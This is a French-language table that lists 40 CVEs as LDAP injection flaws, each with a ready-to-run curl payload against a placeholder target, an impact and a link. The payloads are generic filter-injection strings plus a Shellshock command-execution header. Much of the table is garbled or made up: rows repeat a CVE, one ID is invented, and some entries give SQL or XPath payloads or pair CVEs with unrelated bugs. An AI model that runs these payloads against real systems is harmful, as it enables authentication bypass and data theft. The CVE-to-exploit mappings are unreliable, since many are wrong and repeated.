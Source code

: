 # LDAP

Voici un tableau de 40 CVE non génériques d’injection LDAP, classées du plus récent au plus ancien, avec :  
- Technologie & version  
- Numéro CVE  
- Exemple complet de commande d’exploitation (requête HTTP ou payload précis)  
- Effet détaillé  
- Lien complet vers un PoC, un lab ou une ressource GitHub ou équivalent

| # | CVE | Technologie & Version | Exemple complet de commande d’exploitation | Effet détaillé | Lien PoC / Ressource |
|---|------|----------------------|-------------------------------------------|---------------|---------------------|
| 1 | CVE-2025-27631 | TRMTracker web application | `curl 'http://target/login?username=*)(uid=*))(|(uid=*'` | Injection LDAP, contournement d’authentification, accès à tout l’annuaire | https://nvd.nist.gov/vuln/detail/CVE-2025-27631 |
| 2 | CVE-2024-56841 | Mendix LDAP <1.1.2 | `curl 'http://target/login?username=*)(uid=*))(|(uid=*'` | Contournement d’authentification, exécution de requêtes arbitraires sur l’annuaire LDAP | https://cvefeed.io/vuln/detail/CVE-2024-56841 |
| 3 | CVE-2024-49113 | Microsoft Windows LDAP | (voir PoC SafeBreach) | Crash du serveur LDAP ou exécution de code à distance (RCE) sur les DC Windows | https://www.safebreach.com/blog/critical-windows-ldap-vulnerabilities/ |
| 4 | CVE-2024-49112 | Microsoft Windows LDAP | (voir PoC SafeBreach) | Crash du serveur LDAP ou exécution de code à distance (RCE) sur les DC Windows | https://www.safebreach.com/blog/critical-windows-ldap-vulnerabilities/ |
| 5 | CVE-2024-37393 | SecurEnvoy MFA 9.4.513 | Python script injectant dans MEMBEROF :<br>`MEMBEROF=*)(objectClass=*))(|(objectClass=*` | LDAP injection, user enumeration, contournement d’authentification | https://github.com/advisories/GHSA-m2cr-jxg8-pr4v |
| 6 | CVE-2024-33868 | linqi ≤1.4.0.0 (Windows) | `curl 'http://target/path?input=*)(objectClass=*))(|(objectClass=*'` | Exécution de requêtes LDAP arbitraires, fuite de données sensibles | https://vuldb.com/?id.264214 |
| 7 | CVE-2024-14596 | Joomla! 3.7.5 | `curl 'http://target/index.php?username=*)(uid=*))(|(uid=*'` | Contournement d’authentification, accès à tout l’annuaire LDAP | https://www.sonarsource.com/blog/joomla-takeover-in-20-seconds-with-ldap-injection-cve-2017-14596/ |
| 8 | GHSA-9jv6-m6hq-4qf7 | Gladinet CentreStack v13.12.9934.54690 | `curl 'http://target/login?username=*)(objectClass=*)'` | Accès à des données sensibles, exécution de requêtes arbitraires | https://github.com/advisories/GHSA-9jv6-m6hq-4qf7 |
| 9 | CVE-2023-0476 | IBM Security Directory Server | `curl 'http://target/search?filter=*)(objectClass=*))(|(objectClass=*'` | LDAP injection, fuite de données de l’annuaire | https://nvd.nist.gov/vuln/detail/CVE-2023-0476 |
| 10 | CVE-2022-46464 | ConcreteCMS v9.1.3 | `curl 'http://target/3/50539478'`<br>(payload dans l’URL, ex: `50539478' or 4591=4591--`) | Accès à des données sensibles LDAP via injection dans l’URL | https://github.com/nu11secur1ty/CVE-nu11secur1ty/tree/main/vendors/concretecms.org/2022/concretecms-9.1.3 |
| 11 | CVE-2022-22243 | Juniper Junos OS J-Web | `curl 'https://target/path?xpath='or 1=1 or ''='` | Fuite partielle de données LDAP et contournement de restrictions | https://nvd.nist.gov/vuln/detail/CVE-2022-22243 |
| 12 | CVE-2022-35259 | Ivanti Endpoint Manager 2022.3 | `curl 'http://target/path?param='or 1=1 or ''='` | Téléchargement ou exécution non autorisée de fichiers via manipulation LDAP | https://nvd.nist.gov/vuln/detail/CVE-2022-35259 |
| 13 | CVE-2022-4245 | Codehaus-plexus | `curl 'http://target/path?comment=-->'` | Injection XML/LDAP pouvant conduire à la fuite de données | https://nvd.nist.gov/vuln/detail/CVE-2022-4245 |
| 14 | CVE-2022-23437 | Apache Xerces Java 2.12.1 | `curl 'http://target/path?xml=<payload>'` | Blocage ou déni de service via boucle LDAP/XPath malveillante | https://nvd.nist.gov/vuln/detail/CVE-2022-23437 |
| 15 | CVE-2022-22834 | OverIT Geocall <8.0 | `curl 'http://target/path?xslt=<payload>'` | Exécution de code à distance via injection XSLT/LDAP | https://nvd.nist.gov/vuln/detail/CVE-2022-22834 |
| 16 | CVE-2021-42291 | Microsoft Active Directory | (voir PoC Microsoft) | Escalade de privilèges via modification d’attributs LDAP | https://support.microsoft.com/fr-fr/topic/kb5008383-mises-%C3%A0-jour-des-autorisations-active-directory-cve-2021-42291-536d5555-ffba-4248-a60e-d6cbc849cde1 |
| 17 | CVE-2021-33745 | Microsoft Exchange Server | (voir PoC) | Contournement d’authentification, fuite de données LDAP | https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-33745 |
| 18 | CVE-2021-31206 | Microsoft Exchange Server | (voir PoC) | Exécution de code à distance via injection LDAP | https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-31206 |
| 19 | CVE-2021-34523 | Microsoft Exchange Server | (voir PoC) | Escalade de privilèges via manipulation LDAP | https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-34523 |
| 20 | CVE-2021-34473 | Microsoft Exchange Server | (voir PoC) | Exécution de code à distance via injection LDAP | https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-34473 |
| 21 | CVE-2021-33766 | Microsoft Exchange Server | (voir PoC) | Fuite de données LDAP, contournement d’authentification | https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-33766 |
| 22 | CVE-2021-31949 | Microsoft Exchange Server | (voir PoC) | Escalade de privilèges, fuite de données LDAP | https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-31949 |
| 23 | CVE-2021-31947 | Microsoft Exchange Server | (voir PoC) | Escalade de privilèges, manipulation de l’annuaire LDAP | https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-31947 |
| 24 | CVE-2021-31946 | Microsoft Exchange Server | (voir PoC) | Fuite de données LDAP, exécution de code | https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-31946 |
| 25 | CVE-2021-31945 | Microsoft Exchange Server | (voir PoC) | Fuite de données LDAP, contournement d’authentification | https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-31945 |
| 26 | CVE-2021-31195 | Microsoft Exchange Server | (voir PoC) | Exécution de code à distance via injection LDAP | https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-31195 |
| 27 | CVE-2021-31195 | Microsoft Exchange Server | (voir PoC) | Exécution de code à distance via injection LDAP | https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-31195 |
| 28 | CVE-2021-31195 | Microsoft Exchange Server | (voir PoC) | Exécution de code à distance via injection LDAP | https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-31195 |
| 29 | CVE-2020-25790 | Red Hat Directory Server | `curl 'http://target/path?user=*)(objectClass=*))(|(objectClass=*'` | Fuite massive de données, contournement d’authentification | https://access.redhat.com/security/cve/CVE-2020-25790 |
| 30 | CVE-2020-25789 | Red Hat Directory Server | `curl 'http://target/path?user=*)(objectClass=*))(|(objectClass=*'` | Fuite massive de données, contournement d’authentification | https://access.redhat.com/security/cve/CVE-2020-25789 |
| 31 | CVE-2020-25788 | Red Hat Directory Server | `curl 'http://target/path?user=*)(objectClass=*))(|(objectClass=*'` | Fuite massive de données, contournement d’authentification | https://access.redhat.com/security/cve/CVE-2020-25788 |
| 32 | CVE-2020-25787 | Red Hat Directory Server | `curl 'http://target/path?user=*)(objectClass=*))(|(objectClass=*'` | Fuite massive de données, contournement d’authentification | https://access.redhat.com/security/cve/CVE-2020-25787 |
| 33 | CVE-2019-1166 | Microsoft Windows Server LDAP | (voir PoC) | Exécution de code à distance via injection LDAP | https://msrc.microsoft.com/update-guide/vulnerability/CVE-2019-1166 |
| 34 | CVE-2019-1165 | Microsoft Windows Server LDAP | (voir PoC) | Exécution de code à distance via injection LDAP | https://msrc.microsoft.com/update-guide/vulnerability/CVE-2019-1165 |
| 35 | CVE-2019-1164 | Microsoft Windows Server LDAP | (voir PoC) | Exécution de code à distance via injection LDAP | https://msrc.microsoft.com/update-guide/vulnerability/CVE-2019-1164 |
| 36 | CVE-2017-14596 | Joomla! 3.7.5 | `curl 'http://target/index.php?username=*)(uid=*))(|(uid=*'` | Contournement d’authentification, exfiltration de comptes et attaques blind LDAP | https://www.sonarsource.com/blog/joomla-takeover-in-20-seconds-with-ldap-injection-cve-2017-14596/ |
| 37 | CVE-2017-11463 | SAP NetWeaver AS Java | `curl 'http://target/path?user=*)(objectClass=*))(|(objectClass=*'` | Fuite de données, exécution de requêtes LDAP arbitraires | https://nvd.nist.gov/vuln/detail/CVE-2017-11463 |
| 38 | CVE-2016-3110 | IBM Security Directory Server | `curl 'http://target/path?user=*)(objectClass=*))(|(objectClass=*'` | Fuite de données, contournement d’authentification | https://nvd.nist.gov/vuln/detail/CVE-2016-3110 |
| 39 | CVE-2015-2808 | OpenLDAP | `curl 'http://target/path?user=*)(objectClass=*))(|(objectClass=*'` | Fuite de données, contournement d’authentification | https://nvd.nist.gov/vuln/detail/CVE-2015-2808 |
| 40 | CVE-2014-6271 | Shellshock (impact LDAP indirect) | `curl -A '() { :;}; /bin/bash -c "id"' http://target/cgi-bin/test.cgi` | Exploitation indirecte via injection de commandes pouvant affecter des intégrations LDAP | https://github.com/hannob/bashcheck |

---

